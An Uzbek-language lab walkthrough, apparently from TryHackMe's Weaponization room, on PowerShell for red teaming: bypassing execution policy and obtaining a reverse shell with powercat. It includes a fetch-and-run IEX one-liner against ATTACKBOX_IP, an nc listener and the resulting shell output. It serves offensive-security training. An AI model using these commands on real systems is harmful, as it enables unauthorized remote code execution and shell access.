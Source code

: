 

**PowerShell** — bu ba’zi eski (legacy) foydalanish holatlari istisno bo‘lsa-da, .NET dagi **Dynamic Language Runtime (DLR)** orqali ishlaydigan ob’yektga yo‘naltirilgan dasturlash tili. PowerShell haqida ko‘proq bilish uchun **TryHackMe**’dagi *Hacking with PowerShell* xonasini ko‘ring.

**Red teamer**lar PowerShell’dan dastlabki kirish, tizimni aniqlash (enumeration) va boshqa ko‘plab faoliyatlarda foydalanadilar. Keling, oddiy PowerShell skriptini yaratishdan boshlaymiz. Bu skript quyidagi xabarni chiqaradi:

```powershell
Write-Output "Welcome to the Weaponization Room!"
```

Faylni **thm.ps1** nomi bilan saqlang. `Write-Output` yordamida biz `"Welcome to the Weaponization Room!"` xabarini konsolga chiqaramiz. Endi uni ishga tushiramiz:

**CMD:**

```
C:\Users\thm\Desktop>powershell -File thm.ps1
File C:\Users\thm\Desktop\thm.ps1 cannot be loaded because running scripts is disabled on this system. For more
information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
    + CategoryInfo          : SecurityError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : UnauthorizedAccess
```

---

### **Execution Policy**

**PowerShell**’ning **execution policy** parametri tizimni zararli skriptlarni ishga tushirishdan himoya qilish uchun mo‘ljallangan. Standart holatda `.ps1` PowerShell skriptlarini ishga tushirish Microsoft tomonidan **o‘chirib qo‘yilgan** bo‘ladi.

**Restricted** rejimida faqat yakka buyruqlar bajariladi, lekin skriptlarni ishlatish mumkin emas.

Joriy **PowerShell** sozlamasini tekshirish uchun:

**CMD:**

```
PS C:\Users\thm> Get-ExecutionPolicy
Restricted
```

Bu parametrni osonlikcha o‘zgartirish mumkin. Masalan:

**CMD:**

```
PS C:\Users\thm\Desktop> Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```

**Execution Policy Change xabari:**

```
The execution policy helps protect you from scripts that you do not trust...
[Y] Yes [A] Yes to All [N] No ...
```

`A` tugmasini bosamiz.

---

### **Bypass Execution Policy**

Microsoft bu cheklovni vaqtincha aylanib o‘tish imkoniyatini ham beradi. Masalan, `powershell` buyrug‘iga maxsus argument berib, uni **bypass** rejimiga o‘tkazish mumkin. Bu rejimda hech narsa bloklanmaydi yoki cheklanmaydi.

Bu foydali, chunki o‘zimiz yaratgan PowerShell skriptlarini hech qanday to‘siqsiz ishga tushirish imkonini beradi.

**CMD:**

```
C:\Users\thm\Desktop>powershell -ex bypass -File thm.ps1
Welcome to Weaponization Room!
```

---

### **Reverse Shell olish (Powercat bilan)**

Endi PowerShell’da yozilgan **powercat** vositasidan foydalanib reverse shell olishga harakat qilamiz.

Buning uchun **AttackBox**’ingizda quyidagilarni bajaring:

**Terminal:**

```bash
git clone https://github.com/besimorhino/powercat.git
cd powercat
python3 -m http.server 8080
```

Bu 8080-portda web-server ishga tushiradi.

Keyin **AttackBox**’da **nc** yordamida 1337-portda tinglashni boshlaymiz:

```bash
nc -lvp 1337
```

---

**Jabrlanuvchi (victim) mashinasida** quyidagilarni bajarib, `powercat.ps1` faylini yuklab olish va ishga tushirish mumkin:

**CMD:**

```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
```

Bu buyruq quyidagilarni qiladi:

1. `powercat.ps1` faylini web-serveringizdan yuklab oladi.
2. Uni lokal ravishda ishga tushiradi.
3. `cmd.exe` orqali interaktiv shell ochadi va 1337-portga ulanish yuboradi.

---

**AttackBox**’da **nc** oynasida quyidagini ko‘ramiz:

```
listening on [any] 1337 ...
connect to [10.8.232.37] from [10.10.12.53] ...
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\thm>
```
